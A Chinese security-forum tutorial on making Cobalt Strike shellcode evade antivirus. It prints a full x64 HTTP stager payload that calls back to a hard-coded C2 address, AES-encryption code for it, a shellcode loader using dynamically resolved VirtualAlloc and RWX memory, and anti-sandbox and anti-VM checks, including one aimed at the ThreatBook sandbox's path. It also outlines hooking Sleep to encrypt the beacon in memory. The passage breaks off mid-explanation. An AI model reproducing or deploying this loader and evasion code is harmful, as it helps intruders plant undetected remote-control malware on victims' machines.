# 奇安信攻防社区-一次cs样本免杀实践

### 一次cs样本免杀实践

本文记录笔者使用常见默认配置的\`\`cobaltstrike shellcode\`\`免杀的尝试，构造自己的shellcodeloader加载对应的shellcode实现对常见杀软查杀绕过，实现了对一些常见杀软的绕过，免杀效果还算不错；最后给出来了些对抗文中所使用免杀手段的方法和思路；

# 0x01 背景

从年初开始接触免杀，学习了很多理论；也在攻防项目中，分析了很多前辈们写的免杀马；感觉自己能行了，于是从今年8、9月份左右开始想写自己对免杀的一些总结，想从一个比较高的角度概况出所有的免杀思路，一方面给同在入门期的新手们一个学习思路，一方面记录下自己的release，奈何太菜有心无力，看着自己构画的大纲，又觉得自己接触的东西不过免杀技术的冰山一角，又凭什么写一些总结性的文章呢，就不献丑了；于是转念“大道三千，我取其一即可”，写写自己每次的免杀尝试，尝试过程的用到的知识点做一些总结好了，最后能实现免杀的经历好了。

本文记录笔者使用常见默认配置的`cobaltstrike shellcode`免杀的尝试，构造自己的shellcodeloader加载对应的shellcode实现对常见杀软查杀绕过。 文中测试生成的shellcode，选择的listener;

# 0x02 杀软检测

首先我们不妨先简单分析下杀软的查杀方式：

从查杀的时间阶段，笔者理解可以查杀方式主要分为两大类：

-   静态查杀：指以文件静态是在磁盘中的形式对文件进行检测查杀；
-   动态查杀：指以文件动态运行的时候在内存中的形式对文件进行检测查杀；

> 除了这两个查杀方式之外，一些杀软还有一些其他的查杀方式，常见有的：行为查杀（对一些系统行为进行检测，包括但不限于进程创建、驱动程序加载、注册表修改、磁盘访问、内存访问和网络连接等，还有一些注入行为，远程进程注入。通常和动态查杀搭配使用）、Al分析查杀、网络特征查杀等；本文重点就静态查杀和动态查杀展开；

不妨想下杀软会如何将两种查杀 落地。

## 一、静态检测

文件处于静态的时候，我们看一个样本文件，能看到什么：

> PE文件头信息，导入、导出、TLS等表信息，节区信息；shellcode代码信息；shellcodeloader代码信息；文件本身的hash值

抛开基于黑名单的hash值的查杀来看，杀软在这个阶段主要的查杀目标是shellcode；当然也有一些辅助信息，比如导入、导出表，是否存在shellcodeloader特征信息，这些辅助信息大多数是一个总结的评分机制构成，比如存在某个特征+10分，如果综合超过了60，最后就给评为恶意；

我们先来解决主要矛盾：如何避免杀软检测到shellcode

两种方法：

-   1、把shellcode扔了，动态拉取，这也就是常见的shellcode分离的免杀技术；这种技术可以简单粗暴的过静态检测；
-   2、把shellcode存在形式进行修改，两种选择，第一种是直接把shellcode“脱胎换骨”，套一个外壳，杀软不认识他了就好了；第二种选择是将shellcode简单改改，我们看杀软检测哪，就修改哪，同时保证代码效果不发生变化即可；简单说就是一个大改，一个小改；各有好处；大改实现比较简单粗暴，但是最后使用的时候是要还原的，所以存在后患；小改比较复杂，我们先要了解杀软的规则，检测特征，才能对症下药,之前笔者写个一个绕过火绒的小改demo文章[样本测stager免杀](https://forum.butian.net/share/2316)，感兴趣的师傅可以看下；笔者认为能够把小改的落地融汇贯通，甚至自己随心所欲的编写shellcode，基本就独孤求败了，机器都能被绕过，除非是人工分析；

> 大改其实就是加密/编码，小改其实就是对shellcode进行去特征化，一般小改建议用于当我们遇到特定的杀软的情况；

然后再来看看次要矛盾：如何将上文的“辅助”信息特征进行隐藏（导入导出等表还有shellcodeloader特征信息）

-   这里主要的问题集中在，实现shellcodeloader的时候可能会调用一些敏感的api，从而导致导入表需要导入一些敏感api；这里我们可以使用一些奇怪的方式去解决敏感api的调用；比如，我们可以动态加载api，运行的时候通过loadlibrary+getprocaddress来获取一些api的地址，再深层点，我们调用loadlibrary和getprocaddress也不用api直接调用，而是通过fs寄存器去TEB、PEB里面找内存加载的dll，找到kernel32.dll遍历导出表去找loadlibrary和getprocaddress，这样就连loadlibrary和getprocaddress都没有了；再深层次一点，我们可以直接做到用户层的极限，直接通过SSN（system service number/系统访问编号）去实现直接的syscall的调用，如果只是对抗静态，事实上大部分情况，都不用做到这么复杂就能解决问题了；后续在动态查杀中我们再来看看后两者的区别；当然还有一些其他的方法来隐藏shellcodeloader，比如我们选择loader的实现时候可以选择一些不会被标记的api来做，例如：当我们纠结如何让shellcode运行的时候，为了绕开一些Create(Remote)Thread()等函数的检测，可以通过一些回调函数来运行shellcode，等等；

## 二、动态检测

动态查杀的实现主要有两种思路：

-   1、通过虚拟化运行检测：就是大家常说的沙箱，一般杀软会直接或者间接携带虚拟沙箱，当我们的文件落地的时候，如果是可执行文件，会模拟运行，进行查杀；还有一方面是我们要对抗一些在线检测的沙箱，其实就是和这个一回事，国内的比如微步、qax、安天提供的在线沙箱；
-   2、真实运行内存检测：这个检测的时间点在虚拟化运行检测之后，一般是虚拟化检测没问题，用户自己在物理机运行的时候，杀软可以随时将运行的可执行文件内存dump下来，进行检测；

这里我们简单说下方法论，不展开说细节，后文提到的技术再展开说；

首先是如何绕过虚拟化检测：核心就是不让虚拟环境接触到我们的shellcode

-   1、样本做一些虚拟化环境、沙箱做不了的操作；
-   2、样本检查是否存在虚拟化环境、沙箱特征然后不释放恶意代码；

然后是如何绕过内存dump的检测：

-   1、我们可以借助一些小技巧来绕过内存dump的查杀，例如，内存dump肯定是有限制的，他不可能无限dump，那谁都受不了，程序不用运行了，都让杀软运行得了；所以杀软肯定是有策略的dump，比如，运行之后的5秒钟dump第一次，再比如运行之后遇到结合行为检测遇到了一些可疑行为，那就触发一次内存dump；换句话说所以我们主要保证dump的时候，相关shellcode和远控逻辑代码是被带上面具的即可，也就是被加密的即可；
-   2、修改特征，这个其实和静态检测中的对shellcode的小改的思路是差不多的，就是硬过，修改一些你杀软识别的特征，绕过你的机器检测，这种想要落地是非常难的，在不知道杀软的规则的情况下；需要不断的黑盒测试；同时难度也是比前者更大的，因为此时我们不仅仅是修改shellcode特征，还有shellcode拉取的更大的远控逻辑代码的特征，还有一些数据段的特征，具体的话看后续的实现方法；

# 0x03 免杀尝试

## 一、静态免杀

过静态查杀的方式有很多，但是最"简单和暴力"的就是上文提到的将shellcode的存在形式进行修改中的“大改”：加密/编码；必要的时候需要“隐藏”加密特征（使用一些经常只在远控框架中出现的加密/编码时）

免杀中常见的加解密方法：使用凯撒密码、使用xor异或算法、公开的加密体系算法如：aes、des、rc4；这里建议不要选xor算法和凯撒密码，除非你的key是随机生成并且长度至少要大于1；因为yara有通用匹配机制来对抗这种简单的移位密码算法：如：

```php
rule XorExample1  
{  
    strings:  
        $xor\_string = "This program cannot" xor  
​  
    condition:  
        $xor\_string  
}  
​  
rule XorExample2  
{  
    strings:  
        $xor\_string\_00 = "This program cannot"  
        $xor\_string\_01 = "Uihr!qsnfs\`l!b\`oonu"  
        $xor\_string\_02 = "Vjkq\\"rpmepco\\"acllmv"  
        // Repeat for every single byte XOR  
    condition:  
        any of them  
}
```

上面两条规则是包含的关系，并且第一条包含了第二条；

除了加解密之外，对抗静态查杀也经常使用编码来绕过，比如msf，其自带的shikata编码，是比较理想的编码算法，但是其也有缺陷，就是其自身存在一些强特征；

> 前段时间笔者做了下datacon的样本分析的题目，题目就是给了一堆海量的cs/msf 的样本，让你提取出来c2和其使用的编码以及回连端口；里面就提到了shikata编码，这个编码可以不停的迭代，msf中可以控制迭代的次数，比如我可以反复编码编码23次也可以100次；但是由于其自带的强特征，我们是非常好提取其迭代的次数的。并且非常好判断样本是否使用了shikata的编码；）

### 1、对抗shellcode特征检测

这里我们为了避免处理编码特征的隐藏，直接选用对shellcode进行aes（加密模式选择cbc固定key和iv）加密；因为aes是一个很多地方都会使用的加解密算法，所以杀软是不能检测aes这个加密特征的；否则误报率相当高；

```php
#include <windows.h>  
#include "AES.h"  
#include <iostream>  
#include <thread>  
using namespace std;  
​  
int main() {  
    //http x64 shellcode   
    unsigned char  plain\[\] \= "\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\x48\\x44\\x8b\\x40\\x1c\\x49\\x01\\xd0\\x41\\x8b\\x04\\x88\\x48\\x01\\xd0\\x41\\x58\\x41\\x58\\x5e\\x59\\x5a\\x41\\x58\\x41\\x59\\x41\\x5a\\x48\\x83\\xec\\x20\\x41\\x52\\xff\\xe0\\x58\\x41\\x59\\x5a\\x48\\x8b\\x12\\xe9\\x4f\\xff\\xff\\xff\\x5d\\x6a\\x00\\x49\\xbe\\x77\\x69\\x6e\\x69\\x6e\\x65\\x74\\x00\\x41\\x56\\x49\\x89\\xe6\\x4c\\x89\\xf1\\x41\\xba\\x4c\\x77\\x26\\x07\\xff\\xd5\\x48\\x31\\xc9\\x48\\x31\\xd2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x50\\x00\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\x52\\x68\\x00\\x02\\x40\\x84\\x52\\x52\\x41\\xba\\xeb\\x55\\x2e\\x3b\\xff\\xd5\\x48\\x89\\xc6\\x48\\x83\\xc3\\x50\\x6a\\x0a\\x5f\\x48\\x89\\xf1\\x48\\x89\\xda\\x49\\xc7\\xc0\\xff\\xff\\xff\\xff\\x4d\\x31\\xc9\\x52\\x52\\x41\\xba\\x2d\\x06\\x18\\x7b\\xff\\xd5\\x85\\xc0\\x0f\\x85\\x9d\\x01\\x00\\x00\\x48\\xff\\xcf\\x0f\\x84\\x8c\\x01\\x00\\x00\\xeb\\xd3\\xe9\\xe4\\x01\\x00\\x00\\xe8\\xa2\\xff\\xff\\xff\\x2f\\x58\\x34\\x5a\\x77\\x00\\xbd\\xa3\\x09\\x05\\x92\\x94\\xc5\\x2c\\x92\\x73\\x8c\\x7d\\xfe\\x2c\\xa4\\x45\\xe8\\x6c\\xab\\xa5\\x52\\xec\\x1d\\x16\\x89\\x43\\x65\\x7c\\x19\\x1e\\x3e\\xc5\\x49\\x2f\\x52\\xf4\\xdc\\x29\\x12\\x73\\x35\\x72\\x89\\xba\\x04\\xdf\\xc1\\xd9\\x2d\\x20\\xec\\x91\\x82\\x56\\x29\\xc3\\x29\\x23\\x0f\\xaa\\x25\\xc1\\x6b\\x14\\x03\\x31\\x9e\\x39\\x88\\x39\\xb0\\xde\\xd8\\x00\\x55\\x73\\x65\\x72\\x2d\\x41\\x67\\x65\\x6e\\x74\\x3a\\x20\\x4d\\x6f\\x7a\\x69\\x6c\\x6c\\x61\\x2f\\x34\\x2e\\x30\\x20\\x28\\x63\\x6f\\x6d\\x70\\x61\\x74\\x69\\x62\\x6c\\x65\\x3b\\x20\\x4d\\x53\\x49\\x45\\x20\\x38\\x2e\\x30\\x3b\\x20\\x57\\x69\\x6e\\x64\\x6f\\x77\\x73\\x20\\x4e\\x54\\x20\\x35\\x2e\\x31\\x3b\\x20\\x54\\x72\\x69\\x64\\x65\\x6e\\x74\\x2f\\x34\\x2e\\x30\\x3b\\x20\\x2e\\x4e\\x45\\x54\\x20\\x43\\x4c\\x52\\x20\\x32\\x2e\\x30\\x2e\\x35\\x30\\x37\\x32\\x37\\x29\\x0d\\x0a\\x00\\xc1\\x01\\x5f\\x90\\xbe\\x7f\\x53\\xbb\\xa4\\xe1\\x6d\\x15\\x35\\x12\\x19\\xa0\\xb9\\xc3\\x9e\\xa6\\xa8\\xb4\\xb9\\x68\\x90\\x78\\xbf\\xab\\x92\\xc7\\x49\\xf5\\x56\\x0f\\xab\\xf0\\x17\\x6d\\x10\\x18\\xf0\\x1c\\xe5\\xed\\x23\\x3e\\x29\\x77\\x27\\xd2\\x22\\x04\\x09\\xa4\\x8b\\x0c\\x74\\xb6\\x56\\x02\\xe1\\xa0\\x3d\\x5e\\x66\\xe9\\x3c\\x93\\x1e\\x4b\\xb5\\xa9\\x60\\xcc\\x22\\x08\\x97\\x5f\\x56\\x60\\x4c\\x3c\\xb4\\x29\\xb2\\x16\\xed\\x7f\\xe9\\x54\\x64\\xf5\\xf7\\xbd\\x4c\\xd4\\x7d\\x33\\x78\\x76\\x7d\\xa8\\xe3\\x43\\xf2\\x8f\\x2d\\x1f\\x31\\xf0\\xb9\\x84\\xf7\\x1f\\x82\\x4b\\x07\\x22\\x1e\\x8d\\x1f\\xf0\\xc8\\xc1\\x06\\xb8\\xd7\\x25\\x6a\\x69\\xc7\\x5d\\x74\\x5c\\xbb\\x2e\\x3a\\xb7\\xd0\\xa1\\x62\\x74\\xc7\\x3e\\x14\\x7e\\x3f\\x3f\\x56\\xa1\\xdc\\x0c\\x1e\\xec\\xb5\\x59\\x28\\x52\\x23\\xaf\\x68\\x79\\xb5\\xf1\\xb4\\x50\\x7a\\xab\\xe4\\x28\\xf2\\x91\\x0c\\x73\\xdc\\x4c\\x49\\xc6\\xb7\\xa9\\xa9\\x8c\\x7b\\x24\\x51\\x23\\xc8\\x93\\xe2\\xd7\\x96\\x95\\x56\\x0c\\x7b\\x6a\\xad\\xaf\\x85\\xc9\\xe3\\xab\\x7c\\x35\\xfe\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x31\\x34\\x38\\x2e\\x31\\x33\\x37\\x00\\x00\\x00\\x22\\x90";  

​  
    int plain\_size \= sizeof(plain) / sizeof(plain\[0\]);  
    if (plain\_size % 16 != 0) {  
        plain\_size \= plain\_size + (16 \- (plain\_size % 16));  
    }  
​  
    printf("明文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("%x", plain\[i\]);  
    }  
    printf("\\n");  
​  
    unsigned char iv\[\] \= {0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f};  
    printf("IV:");  
    for (int i \= 0; i < 16; i++) {  
        printf("%x", iv\[i\]);  
    }  
    printf("\\n");  
​  
​  
    unsigned char key\[\] \= { 0x01, 0x02, 0x03, 0x09, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f }; //key example  
​  
    printf("KEY:");  
    for (int i \= 0; i < 16; i++) {  
        printf("%x", key\[i\]);  
    }  
    printf("\\n");  
​  
    AES aes(AESKeyLength::AES\_128);  
​  
​  
    //加密  
    //unsigned char\* cipher = aes.EncryptECB(plain, plain\_size, key);   //ecb  
    unsigned char\* cipher \= aes.EncryptCBC(plain, plain\_size, key,iv);   //cbc  
    printf("密文:");  
    for (int i \= 0; i < plain\_size; i++) {  
        printf("\\\\x%02x", cipher\[i\]);  
    }  
    printf("\\n");  
​  

}
```

这样就可以绕过杀软静态检测对shellcode的特征检查

### 2、对抗shellcodeloader和其他特征

然后我们看下shellcodeloader：

1、就是使用常规的VirtualAlloc开辟shellcode的存储空间，然后使用RtlMoveMemory将解密后的shellcode复制到对应空间；最后将空间开头地址强传函数指针执行即可；

2、我们采用动态加载的形式加载shellcodeloader需要的函数

3、过程中出现的字符串，我们都通过栈来存储；不要出现在数据段

大致代码逻辑如下：

```php
函数定义： 
typedef LPVOID(\*MyVirtualAlloc)(LPVOID lpAddress,SIZE\_T dwSize,DWORD  flAllocationType,DWORD  flProtect);  
typedef LPVOID(\*MyRtlMoveMemory)(VOID UNALIGNED\* Destination,const VOID UNALIGNED\* Source,SIZE\_T  Length);  
​  
​  
​  
代码实现：  
cipher\[\] \= "shellcode加密之后的密文";  
char a\[\] \= { 'k','e','r','n','e','l','3','2','.','d','l','l','\\0'};  
char b\[\] \= { 'V','i','r','t','u','a','l','A','l','l','o','c','\\0' };  
char c\[\] \= { 'N','t','d','l','l','.','d','l','l','\\0' };  
char d\[\] \= { 'R','t','l','M','o','v','e','M','e','m','o','r','y','\\0' };  
unsigned char\* res\_plain \= aes.DecryptCBC(cipher, cipher\_size, key, iv);//解密  
MyVirtualAlloc myVa \= (MyVirtualAlloc)GetProcAddress(GetModuleHandle(a), b);  
MyRtlMoveMemory myMov \= (MyRtlMoveMemory)GetProcAddress(GetModuleHandle(c), d);  
LPVOID mem \= myVa(NULL, cipher\_size + 1, MEM\_COMMIT, PAGE\_EXECUTE\_READWRITE);  
myMov(mem, res\_plain, cipher\_size);  
((void(\*)())mem)();
```

## 二、动态免杀

我们主要去绕过上文提到动态检测的两个点：1、通过虚拟化运行检测：2、真实运行内存检测

### 1、对抗虚拟化运行检查（虚拟沙箱）

**检查沙箱特征不运行：**

笔者在今年hw的时候分析了一些样本，其中又一些做了一些反虚拟化和反沙箱操作，这里我们直接借鉴，然后稍加增补即可；

如这个go写的样本：



这里我们直接借鉴一波，cpu个数，ram大小，开机时间的话可以看情况使用：

1、检查cpu个数：cpu小于2个，非真实物理机

2、检查ram大小，ram小于2gb，非真实物理机

3、检查开机时间，这个主要是反一些动态分配的沙箱

```php
/\*  
    check cpu  
    反沙箱、虚拟机 分配的cpu个数  
\*/  
bool checkcpu() {  
    SYSTEM\_INFO systemInfo;  
    GetSystemInfo(&systemInfo);  
    DWORD numberOfProcessors \= systemInfo.dwNumberOfProcessors;  
    if (numberOfProcessors < 2)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
        check RAM  
        内存大于2g  
\*/  
bool checkRAM() {  
​  
    MEMORYSTATUSEX memoryStatus;  
    memoryStatus.dwLength \= sizeof(memoryStatus);  
    GlobalMemoryStatusEx(&memoryStatus);  
    DWORD RAMMB \= memoryStatus.ullTotalPhys / 1024 / 1024;  
    if (RAMMB < 2048)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
    反沙箱、虚拟机,开机时间大于1小时返回true  
\*/  
bool checkUptime() {  
    DWORD upTime \= GetTickCount();  
    //printf("时间：%d", &upTime);  
    if (upTime \> 3600000)  
        return true;  
    else  
        return false;  
}  
​
```

除此之外我们加一些其他沙箱/虚拟机存在的特征：

4、检查是否存在sub链接记录：沙箱和虚拟机一般没有usb记录

5、检查样本名称：沙箱可能会修改样本名称

6、检查硬盘大小：沙箱和虚拟机一般都不会分配大的硬盘

7、检查sleep函数是否被劫持：虚拟沙箱一般为了更快速的运行样本，会劫持sleep函数，来对抗一些企图通过延时运行来逃避检测的恶意样本；利用这特征我们可以检测当前环境是否是沙箱

代码实现：

```php
/\*  
    反沙箱 虚拟化  
    检查usb链接的个数  
\*/  
bool checkusbnum() {  
    HKEY hKey;  
    DWORD mountedUSBDevicesCount;  
    RegOpenKeyEx(HKEY\_LOCAL\_MACHINE, "SYSTEM\\\\ControlSet001\\\\Enum\\\\USBSTOR", 0, KEY\_READ, &hKey);  
    RegQueryInfoKey(hKey, NULL, NULL, NULL, &mountedUSBDevicesCount, NULL, NULL, NULL, NULL, NULL, NULL, NULL);  
    if (mountedUSBDevicesCount < 1)  
        return false;  
    else  
        return true;  
​  
}  
/\*  
    反沙箱、虚拟化  
    检查文件名(有些沙箱会改名去运行)  
    文件运行的路径（这个要配合样本本身来做，样本要把自己复制到特定的文件夹下面，然后创建进程启动目标文件夹下的样本，结束自己；  
    之前遇到过一个样本：1、先把自己复制到特定文件夹；2、释放一个bat文件 3、运行bat文件，bat文件运行复制之后的样本来反查杀、反虚拟、沙箱  
\*/  
bool checkprocessnameandpath() {  
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    //if (!wcsstr(currentProcessPath, L"C:\\\\USERS\\\\PUBLIC\\\\")) return false;  
    if (!strstr(currentProcessPath, "AvoidRandomKill.exe"))//这里填写样本的名字  
    {  
        return false;  
    }  
    else  
        return true;  
}  
​  
​  
/\*  
    反虚拟机、沙箱  
    硬盘大小大于100  
\*/  
bool checkHDD() {  
​  
    HANDLE hDevice \= CreateFileW(L"\\\\\\\\.\\\\PhysicalDrive0", 0, FILE\_SHARE\_READ | FILE\_SHARE\_WRITE, NULL, OPEN\_EXISTING, 0, NULL);  
    DISK\_GEOMETRY pDiskGeometry;  
    DWORD bytesReturned;  
    DeviceIoControl(hDevice, IOCTL\_DISK\_GET\_DRIVE\_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);  
    DWORD diskSizeGB;  
    diskSizeGB \= pDiskGeometry.Cylinders.QuadPart \* (ULONG)pDiskGeometry.TracksPerCylinder \* (ULONG)pDiskGeometry.SectorsPerTrack \* (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;  
    if (diskSizeGB < 100)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
    反沙箱、虚拟机  
    检测时间是否加速，来绕过沙箱  
\*/  
BOOL accelerated\_sleep()  
{  
    DWORD dwStart \= 0, dwEnd \= 0, dwDiff \= 0;  
    DWORD dwMillisecondsToSleep \= 30 \* 1000;  
​  
    dwStart \= GetTickCount();  
    MySleep mySlp \= (MySleep)GetProcAddress(GetModuleHandle("Kernel32.dll"), "Sleep");  
    mySlp(dwMillisecondsToSleep);  
    dwEnd \= GetTickCount();  
​  
    dwDiff \= dwEnd \- dwStart;  
    if (dwDiff \> dwMillisecondsToSleep \- 1000) // substracted 1s just to be sure  
        return false;  
    else  
        return true;  
}  
```

除此之外，这里也提一嘴对特定沙箱的绕过方法：其实对特定沙箱绕过是比较容易的，尤其是沙箱能够开放其自己的很多信息的情况下：

8、反”微步“沙箱：这里拿微步沙箱举例子，简单使用两次微步的沙箱，你会发现其存在一个非常简单但是实用的特征，他总是把样本放到一个形如，如下路径的磁盘位置进行运行：

`C:\\[A-Za-z]{7}\\样本名称`

如下是一次运行沙箱运行截图：



这里我们直接锁定路径，正则匹配，如果出现再这种目录下，不释放shellcode即可：

代码实现如下：

```php
​  
/\*  
    根据沙箱放置样本路径特征对抗微步沙箱  

\*/  
bool checkWEIBU() {  
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    std::string input(currentProcessPath);  
    std::regex pattern(R"(C:\\\\\[A-Za-z\]{7}\\\\MyAESLoader\\.exe)");  
    std::smatch matches;  
​  
    if (std::regex\_search(input, matches, pattern)) {  
        return false;  
    }  
    else {  
        return true;  
    }  
}
```

> 当然除此之外还有很多其他方法，比如通过计算沙箱环境背景图片的hash，通过匹配对应hash，来判断是否在对应指定的沙箱；再比如，通过一些点击操作来截断沙箱分析，如弹窗点击操作；再比如获取鼠标移动路径，来判断是否是沙箱等等

为了绕过虚拟化沙箱，除此之外还有第二条思路：运行沙箱做不了的操作

这里简单说下有哪些实现方式：

1、有些沙箱不能联网或者说是虚假联网：我们可以通过尝试访问某个互联网上的时间接口，来判断是否能够联网，并且是真实的互联网；这里为什么要说是真实的互联网呢，因为有的沙箱为了让恶意样本运行，会去模拟一些环境来 满足支持恶意样本，比如域名解析，不管恶意样本需要解析什么域名，都会解析成功；我们熟知的WannaCry勒索软件病毒回来域名解析失败之后会造成勒索，因为其尝试解析就是一个根本不存在的域名（），其将此作为开关，来避免被一些沙箱环境检测。

2、沙箱不能模拟命名管道通信：CobaltStrike里面的The Artifact Kit 其中一种技术就是通过命名管道向自身提供 shellcode，但是沙箱做不到这个操作，从而沙箱就不会拿到shellcode，也没有办法静态直接匹配，因为shellcode是使用一串随机字节，xor加密的；感兴趣可以通过cs生成artifact的样本看看；



### 2、对抗内存检测

这里我们选择上文提到的对抗内存dump检测绕过的第一种方法，即巧妙的运行杀软不能过度占用资源的限制，在其准备dump之前抓住时机加密恶意代码，然后需要运行恶意代码的时候在解密出来；一句话概述就是动态内存加解密；

这里我们使用的c2框架是cobaltstrike，所以我们可以借助其sleep的特性来完成动态加解密这一操作；每次sleep之前加密内存种所有恶意代码，sleep之后解密还原内存中的恶意代码；

这项技术有两个个难点：

1、如何准确的找到其调用sleep的时机，并插入我们加解密的代码

2、如何准确的找到所有的恶意代码，因为我们要对其进行加解密，所以我们要在内存空间中准确的找到所有恶意代码

第一个问题，如果学习过逆向技术的师傅们，应该很快就能想到，这不是hook嘛，根本不用找，直接hook sleep不就可以了，对，我们可以通过inline hook 劫持sleep 这个api，让shellcode执行我们自定义的sleep，就可以为所欲为了；

第二个问题，这个问题有点不好想，需要了解cobaltstrike的shellcode的实现方式，以及其beacon的拉取和加载；笔者曾在攻防社区发布过几篇关于cs 分析的文章；

[Cobaltstrike4.0 —— shellcode分析](https://forum.butian.net/share/2017)

[Cobaltstrike4.0——记一次上头的powershell上线分析](https://forum.butian.net/share/1934)

这里笔者就不再重复写起加载和拉取过程的原理了，简单说就是，shellcode会拉取beacon，拉取的beacon会通过特殊构造的dll引导头跳入反射加载函数，从而反射加载自己到内存中；之后的远控逻辑都是再后者了；

所以这里我们要处理的恶意代码总共就三个：

-   1、 shellcode
-   2、 文件形式beacon
-   3、内存形式beacon

首先我们要找到这三个地址，然后操作的时候，对于shellcode和文件形式的beacon可以直接抹除，只要实现内存形式的beacon的动态加解密即可；

shellcode好说，这个本身就是我们申请的空间，很容易我们能拿到对应地址

文件形式的beacon，内存形式的beacon是该如何找到，这是一个问题，这个问题可以使用两种方式来实现：

